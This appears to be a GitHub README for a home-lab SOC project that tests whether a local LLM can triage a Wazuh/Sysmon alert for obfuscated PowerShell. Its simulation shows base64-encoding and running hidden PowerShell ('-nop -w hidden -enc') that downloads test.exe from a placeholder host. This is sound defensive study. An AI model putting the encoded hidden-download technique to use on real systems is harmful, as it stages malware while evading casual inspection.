





# Wazuh + Sysmon AI Triage Lab

## Project Summary

This project demonstrates a practical SOC workflow combining detection, correlation, and AI-assisted triage using Wazuh and Sysmon in a home lab.

It evaluates how a local LLM can support security alert triage without replacing analyst judgment.

The goal is to test whether AI can help structure alert analysis, summarize suspicious behavior, highlight relevant indicators, and suggest next investigation steps.

The tested scenario focused on obfuscated PowerShell execution, outbound network activity, and file creation on a Windows endpoint.

---

## Objectives

- simulate a suspicious PowerShell-based attack scenario
- collect telemetry from Sysmon and Wazuh
- structure alert data into JSON format
- generate an AI-ready triage prompt using Python
- compare manual triage with AI-generated analysis
- evaluate where AI helps and where human validation is still required

---

## Lab Environment

- **Windows 11 host**
- **Sysmon**
- **Wazuh agent**
- **Wazuh manager**
- **VS Code**
- **Ollama**
- **Qwen3:8b** as the main local LLM for triage testing

---

## Scenario Overview

The simulated activity involved:

- PowerShell execution with suspicious parameters:
  - `-nop`
  - `-w hidden`
  - `-enc`
- outbound HTTP network connection
- creation of a new file on disk:
  - `test.exe`

The encoded payload was decoded and revealed the following command:

```powershell
Invoke-WebRequest http://example.com -OutFile test.exe

```

This made the scenario useful for testing:

- execution telemetry
- obfuscation detection
- network correlation
- file creation correlation
- AI-assisted triage

## Why This Project Matters

Many home lab projects stop at detection or screenshots.

This project goes one step further by testing whether a local LLM can support the triage phase of an investigation.

Instead of treating AI as a replacement for the analyst, this lab treats AI as an assistant that may help with:

- fast summarization
- indicator extraction
- ATT&CK mapping
- next-step suggestions

while still requiring analyst validation.

## Detection Scenario

### PowerShell Payload Generation

```
$cmd = "Invoke-WebRequest http://example.com -OutFile test.exe"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($cmd)
$encoded = [Convert]::ToBase64String($bytes)
$encoded
```

### Encoded Execution

```
powershell -nop -w hidden -enc <base64>

```

### Payload Decoding

```
[System.Text.Encoding]::Unicode.GetString([Convert]::FromBase64String("<base64>"))

```

Decoded result:

```
Invoke-WebRequest http://example.com -OutFile test.exe

```

## Telemetry Collected (Correlation Evidence)

### Sysmon Event ID 1 – Process Create

Observed:

- `powershell.exe`
- suspicious execution flags:
  - `-nop`
  - `-w hidden`
  - `-enc`
- parent process:
  - `powershell.exe`

This indicated obfuscated PowerShell execution and suspicious parent-child behavior.



### Sysmon Event ID 3 – Network Connection

Observed:

- outbound HTTP connection
- process:
  - powershell.exe
- destination IP:
  - 172.66.147.243
- destination port:
  - 80

This confirmed that the encoded PowerShell execution was followed by external network activity.

Example from lab:



### Sysmon Event ID 11 – File Create

Observed:

- file creation:
  - C:\\Users\\ITWORK\\test.exe

This suggested that the decoded PowerShell payload successfully downloaded a file to disk.

Example from lab:



### Wazuh Alert

Observed:

- rule description:
  - Encoded PowerShell command detected (possible obfuscation)
- rule level:
  - 12
- MITRE mapping:
  - T1027

This was a stronger and more useful alert than the earlier baseline PowerShell rule.

Example from lab:



## Structured Event Data

The event was converted into a structured JSON format for AI triage:

```json
{
  "rule_description": "Encoded PowerShell command detected (possible obfuscation)",
  "rule_level": 12,
  "mitre": ["T1027", "T1059.001", "T1105"],
  "process_image": "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe",
  "command_line": "powershell.exe -nop -w hidden -enc <base64>",
  "parent_process": "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe",
  "user": "ROOT\\ITWORK",
  "network_connection": {
    "destination_ip": "172.66.147.243",
    "destination_port": 80
  },
  "file_created": "C:\\Users\\ITWORK\\test.exe",
  "decoded_payload": "Invoke-WebRequest http://example.com -OutFile test.exe",
  "confidence": "high",
  "reason": "Encoded PowerShell + network activity + file creation"
}

```

## AI-Assisted Triage Workflow

This project used a simple local pipeline:

```
Wazuh / Sysmon telemetry
        ↓
structured_event.json
        ↓
Python prompt builder
        ↓
generated_prompt.txt
        ↓
Ollama + local LLM
        ↓
AI triage result
        ↓
human validation

```

The goal was to standardize and structure the input sent to the model and make the triage process repeatable.

## Python Automation

A small Python script was used to generate a structured triage prompt from the JSON event data.

### Script used

```
scripts/triage_prompt_builder.py

```

Purpose:

- load the structured security event
- embed it into a predefined SOC triage prompt
- save a reusable AI-ready prompt to disk

This removes part of the manual copy-paste workflow and makes the process more repeatable.

## Manual Analyst Triage

My manual analysis focused on correlating:

- Sysmon Event ID 1
- Sysmon Event ID 3
- Sysmon Event ID 11
- Wazuh alert data

### Key findings

- PowerShell execution was obfuscated using `-enc`
- hidden execution flags increased suspicion
- outbound network activity followed execution
- a new executable file was written to disk
- the overall chain suggested likely malicious behavior

### Preliminary assessment

**Likely malicious**

### Why not “confirmed malicious”

Although the behavior is highly suspicious, the destination IP and downloaded file were not independently verified through threat intelligence or sandbox analysis.

This means the activity should be treated as likely malicious, not automatically confirmed.

## AI Triage Output

Example from lab:



The local LLM was able to:

- summarize the suspicious behavior
- identify key indicators
- suggest relevant ATT&CK techniques
- provide investigation next steps

However, the AI output also showed some limitations.

## AI vs Human Analysis

### What the AI did well

- recognized encoded PowerShell as suspicious
- used the decoded payload in the analysis
- identified network activity and file creation
- produced a useful triage structure
- suggested reasonable next investigative steps

### What the AI got wrong or overstated

- it was too confident and labeled the activity as confirmed malicious
- it could not independently verify whether the destination IP was actually malicious
- it still required analyst review for ATT&CK precision and final judgment

### Human correction

The analyst conclusion is:

**Likely malicious, not automatically confirmed malicious.**

This project shows that AI can support triage, but analyst validation remains essential.

## MITRE ATT&CK Mapping

- **T1059.001** – PowerShell
- **T1027** – Obfuscated/Encoded Files and Information
- **T1105** – Ingress Tool Transfer

## Key Takeaways

- AI can help speed up alert triage and make investigations more structured
- local LLMs can be useful even in a home lab setting
- structured event input improves AI output quality
- human validation is still required to avoid overconfidence and incorrect conclusions
- this workflow is more realistic than simply asking an AI to “analyze a log”

## Repository Structure

```
wazuh-sysmon-ai-triage-lab/
├── README.md
├── alerts/
│   └── structured_event.json
├── prompts/
│   ├── triage_prompt.txt
│   └── generated_prompt.txt
├── ai_output/
│   ├── triage_result.txt
│   └── analysis_notes.txt
├── notes/
│   ├── manual_analysis.md
│   ├── comparison.md
│   └── decoded_payload.txt
├── screenshots/
│   ├── wazuh_alert.png
│   ├── sysmon_event1_process_create.png
│   ├── sysmon_event3_network_connection.png
│   ├── sysmon_event11_file_create.png
│   └── ai_triage_output.png
└── scripts/
    └── triage_prompt_builder.py

```

## Lessons Learned

This project helped me better understand:

- how encoded PowerShell appears in telemetry
- how to correlate endpoint and SIEM data
- how structured security data improves AI output
- how AI can assist triage without replacing analyst reasoning
- why analyst validation is critical in security workflows
  
## Future Improvements

Possible next steps for this project:

- fully automate the Ollama call from Python
- test multiple local models and compare outputs
- add a benign scenario to compare true positive vs suspicious-but-inconclusive triage
- include a second case involving persistence or scheduled task creation

This lab reflects a real-world SOC workflow where detection, correlation, and triage are equally important.

## Final Note

This lab reflects a real-world SOC workflow where detection, correlation, and triage are equally important, and where AI can assist—but not replace—analyst decision-making.
  


